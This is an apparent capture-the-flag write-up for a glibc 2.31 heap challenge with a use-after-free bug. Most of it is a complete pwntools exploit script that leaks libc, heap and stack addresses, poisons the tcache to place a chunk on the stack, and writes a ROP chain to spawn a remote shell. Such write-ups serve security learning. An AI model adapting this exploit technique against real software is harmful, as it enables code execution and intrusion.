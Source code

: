 was a classic heap challenge with 52 solves at the end of the ctf

people are getting better day by day with heap...

![chall](https://github.com/user-attachments/assets/78d8036a-eb7b-4e9b-9099-529cf30bdbdb)


UAF vulnerability when free and the challenge is very generous with how many actions we can take

i leaked the libc and the stack to do ROP (from saved rip of malloc)

could definitely save time and just use malloc hooks... (glibc 2.31)

but i forgot about them when i was solving the challenge lol

anyway, here is the infamous do.py (with some comments)

```
#!/usr/bin/env python3

from pwn import *
context.arch = 'amd64'
'''
p = gdb.debug("./chall_patched", gdbscript="""
    c
""")
'''
p = remote("chall.ehax.tech", 1925)

libc = ELF("./libc.so.6")

def malloc(idx, size, data):
    p.sendline(b"1")
    p.sendlineafter(b"index?", idx.encode("utf-8"))
    p.sendlineafter(b"big?", size.encode("utf-8"))
    p.sendlineafter(b"payload?", data)

def free(idx):
    p.sendline(b"2")
    p.sendlineafter(b"index?", idx.encode("utf-8"))

def edit(idx, data):
    p.sendline(b"3")
    p.sendlineafter(b"index?", idx.encode("utf-8"))
    p.sendlineafter(b"contents?", data)

def view(idx):
    p.sendline(b"4")
    p.sendlineafter(b"index?", idx.encode("utf-8"))
    p.recvuntil(b">")
    return p.recvline().strip()

# leak libc via a chunk in unsortedbin
for i in range(9):                                                                                                                                                                          
    malloc(f"{i}", "128", b"CCCC")                                                                                                                                                          
                                                                                                                                                                                            
for i in range(8):
    free(f"{i}")

libc_leak = int.from_bytes(view("7"), 'little')
libc_base = libc_leak - 0x1ecbe0
env = libc_base + 0x1ef600 
print(f"libc base: {hex(libc_base)}")
print(f"environ: {hex(env)}")

# fill tcache
for i in range(9):
    malloc(f"{i}", "128", b"DDDD")

# leak heap for no reason :p
malloc("0", "20", b"AAAA")
malloc("1", "20", b"BBBB")
free("1")
free("0")

heap_leak = int.from_bytes(view("0"), 'little')

# allocate a chunk with a libc address that points to the stack
edit("0", p64(env))
malloc("1", "20", b"")
malloc("2", "20", b"")
free("1")

stack_leak = int.from_bytes(view("1"), 'little')
rip = stack_leak - 0x120
print(f"saved rip: {hex(rip)}")

# allocate a chunk on stack
malloc("3", "60", b"aaaa")
malloc("4", "60", b"bbbb")
free("4")
free("3")
edit("3", p64(rip))
malloc("3", "60", b"aaaa")

# do rop on saved rip of malloc
libc.address = libc_base 
rop = ROP(libc)
pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
ret = rop.find_gadget(['ret'])[0]
binsh = next(libc.search(b"/bin/sh"))

payload = p64(ret) + p64(pop_rdi) + p64(binsh) + p64(libc.symbols['system'])
malloc("4", "60", payload)

# enjoy shell
p.interactive()
```

![flaggg](https://github.com/user-attachments/assets/279039a3-6b74-4cef-933c-96116e3bffb1)

***4rsp is learning...***






